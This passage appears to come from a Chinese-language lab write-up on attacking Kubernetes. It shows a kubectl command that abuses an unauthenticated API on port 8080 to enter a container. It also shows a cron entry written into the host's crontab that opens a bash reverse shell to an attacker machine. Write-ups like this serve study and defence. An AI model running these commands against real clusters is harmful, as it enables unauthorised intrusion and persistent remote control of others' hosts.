 [![](assets/1701678402-9976ad3b00dedfb40b31ef9e6704cb88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190914-e564a0c0-8f70-1.png)  
接下来利用未授权进入该容器中写入定时任务

```plain
利用 8080 的未授权 API 接口进入创建的容器
kubectl -s 192.168.108.100:8080 --namespace=default exec -it test bash
写入定时任务
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.108.131/9999 0>&1\n" >> /mnt/etc/crontab
```

这里本来的想法是反弹到公网的服务器上的，但发现实现不了需要端口映射到物理机，因此在 Kali 中接收 shell，这里需要等一会，大概 1 分钟内能有回显  